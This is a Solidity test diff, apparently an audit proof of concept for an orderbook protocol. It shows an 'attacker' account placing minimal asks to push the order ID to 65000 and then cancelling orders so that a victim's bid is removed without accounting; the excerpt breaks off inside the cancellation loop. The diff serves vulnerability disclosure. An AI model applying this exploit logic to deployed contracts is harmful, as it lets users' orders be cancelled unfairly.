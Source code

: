### Test Code
```diff
diff --git a/test/CancelOrder.t.sol b/test/CancelOrder.t.sol
index e7b9e2f..65419dd 100644
--- a/test/CancelOrder.t.sol
+++ b/test/CancelOrder.t.sol
@@ -1,17 +1,19 @@
 // SPDX-License-Identifier: GPL-3.0-only
 pragma solidity 0.8.21;
 
-import {U256, U88} from "contracts/libraries/PRBMathHelper.sol";
+import {U256, U88,U80} from "contracts/libraries/PRBMathHelper.sol";
 import {Errors} from "contracts/libraries/Errors.sol";
 import {STypes, MTypes, O, SR} from "contracts/libraries/DataTypes.sol";
 import {LibOrders} from "contracts/libraries/LibOrders.sol";
 
 import {OBFixture} from "test/utils/OBFixture.sol";
 // import {console} from "contracts/libraries/console.sol";
+import {Constants, Vault} from "contracts/libraries/Constants.sol";
 
 contract CancelOrderTest is OBFixture {
     using U256 for uint256;
     using U88 for uint88;
+    using U80 for uint80;
 
     uint256 private startGas;
     uint256 private gasUsed;
@@ -240,6 +242,59 @@ contract CancelOrderTest is OBFixture {
         });
     }
 
+    function test_OnceReached65000CanCancelInfiniteAndDoesntAccount() public {
+        uint80 price = type(uint80).max;
+        uint256 minAskEth = 0.001 ether;
+        uint88 minAskAmount = uint88((minAskEth * 1 ether) / price) + 1;
+        assertEq(price.mul(minAskAmount) > minAskEth,true);
+        assertEq(minAskAmount , 0.000000000827180613 ether);
+        assertEq(minAskAmount * 65000 , 0.000053766739845 ether );
+
+        vm.prank(owner);
+        testFacet.setOrderIdT(asset, 64995);
+
+        //a bid that will be cancelled without accounting by the attacker
+        fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, receiver);
+        assertEq(getBids().length, 1);
+        assertEq(getBids()[0].addr, receiver);
+
+        depositUsd(extra, minAskAmount * 4);
+
+        //create 4 asks to reach 65000
+        for(uint i=0;i<4;i++){
+
+            MTypes.OrderHint[] memory orderHintArray =
+            diamond.getHintArray(asset, price, O.LimitAsk);
+
+            vm.prank(extra);
+            diamond.createAsk(asset, price, minAskAmount, Constants.LIMIT_ORDER, orderHintArray);
+        }
+        
+        //delete 4 asks made by attacker
+         assertEq(diamond.getAssetNormalizedStruct(asset).orderId, 65000);
+         for(uint16 i=1;i<=4;i++){
+            vm.prank(extra);
```